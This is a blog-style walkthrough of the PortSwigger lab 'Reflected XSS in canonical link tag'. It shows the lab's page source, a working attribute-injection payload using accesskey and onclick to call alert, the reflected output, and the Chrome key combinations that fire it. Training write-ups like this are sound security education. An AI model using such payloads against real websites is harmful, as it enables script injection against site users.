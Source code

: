 # Reflected XSS in canonical link tag | Dec 31, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag), you'll learn: Reflected XSS in canonical link tag! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack on the home page that injects an attribute that calls the `alert` function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

Please note that the intended solution to this lab is only possible in Chrome.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231083133.png)

**View source page:**
```html
<head>
    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
    <link href=/resources/css/labsBlog.css rel=stylesheet>
    <link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/'/>
    <title>Reflected XSS in canonical link tag</title>
</head>
```

In here, we can see that there is a `<link>` tag is using **canonical** link tag.

**To exploit it, we can try to inject `accesskey` attribute with an `onclick` event:**
```html
/?'accesskey='x'onclick='alert(document.domain)
```

**Result:**
```html
<link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/?'accesskey='x'onclick='alert(document.domain)'/>
```

**Now press:**

- On Windows: `Alt + Shift + x`
- On MacOS: `Ctrl + Alt + x`
- On Linux: `Alt + x`

> Note: It only works in Chrome browser.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231084750.png)

Nice!

# What we've learned:

1. Reflected XSS in canonical link tag